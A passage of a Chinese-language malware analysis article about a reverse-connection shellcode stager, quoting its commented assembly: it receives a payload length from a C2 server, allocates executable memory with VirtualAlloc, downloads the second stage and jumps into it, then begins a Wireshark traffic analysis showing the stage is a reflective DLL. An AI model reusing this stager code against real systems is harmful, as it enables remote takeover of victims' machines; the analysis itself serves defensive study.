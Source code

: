 简单看上面就是打开socket，请求连接写好的c2的地址和端口

#### 第三部分是处理接收到的内容的

其汇编实现如下：

```php
recv:  
  ; Receive the size of the incoming second stage...  
  push byte 0            ; flags  
  push byte 4            ; length = sizeof( DWORD );  
  push esi               ; the 4 byte buffer on the stack to hold the second stage length  
  push edi               ; the saved socket  
  push 0x5FC8D902        ; hash( "ws2\_32.dll", "recv" )  
  call ebp               ; recv( s, &dwLength, 4, 0 );  
  ; Alloc a RWX buffer for the second stage  
  mov esi, \[esi\]         ; dereference the pointer to the second stage length  
  push byte 0x40         ; PAGE\_EXECUTE\_READWRITE  
  push 0x1000            ; MEM\_COMMIT  
  push esi               ; push the newly recieved second stage length.  
  push byte 0            ; NULL as we dont care where the allocation is.  
  push 0xE553A458        ; hash( "kernel32.dll", "VirtualAlloc" )  
  call ebp               ; VirtualAlloc( NULL, dwLength, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE );  
  ; Receive the second stage and execute it...  
  xchg ebx, eax          ; ebx = our new memory address for the new stage  
  push ebx               ; push the address of the new stage so we can return into it  
read\_more:               ;  
  push byte 0            ; flags  
  push esi               ; length  
  push ebx               ; the current address into our second stage's RWX buffer  
  push edi               ; the saved socket  
  push 0x5FC8D902        ; hash( "ws2\_32.dll", "recv" )  
  call ebp               ; recv( s, buffer, length, 0 );  
  add ebx, eax           ; buffer += bytes\_received  
  sub esi, eax           ; length -= bytes\_received, will set flags  
  jnz read\_more          ; continue if we have more to read  
  ret                    ; return into the second stage
```

简单看就是，运行 recv 接收一个4字节，然后把这个4字节内容作为长度，使用virtualAlloc开辟对应长度的空间，循环读接下来发送过来的内容并存到刚刚开辟的空间里面，最后直接ret 将之前开辟空间的地址放到eip，运行传输过来的内容用于第二阶段的持续控制。

四、流量分析
------

运行我们再第二步制作好的shellcode加载器：打开wireshark抓包

首先我们发现在shellcode所分析的第一部分流量，也就是长度为4的一个数据，这个数据代表之后所发送payload的长度：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c37bc6712e245021689b748ccb3151f8adc7d2b0.png)

第二部分流量是随之而来的payload，如下，这个payload看上去就是一个pe文件，有完整的pe头之类的东西；这里我们注意一个问题，上文我们分析shellcode的时候，在shellcode的尾部是直接通过ret，将eip丢到第二阶段的payload上的，那么这里就出现问题了，一个pe文件怎么能被转成机器码直接执行呢？难道不是应该丢给系统，让其通过固定的pe文件加载去执行吗？其实这个问题和之前笔者分析cobaltstrike的时候遇到的问题如出一辙，其实这里和coabltstrike里面一样是一个被修补之后的反射加载的dll：
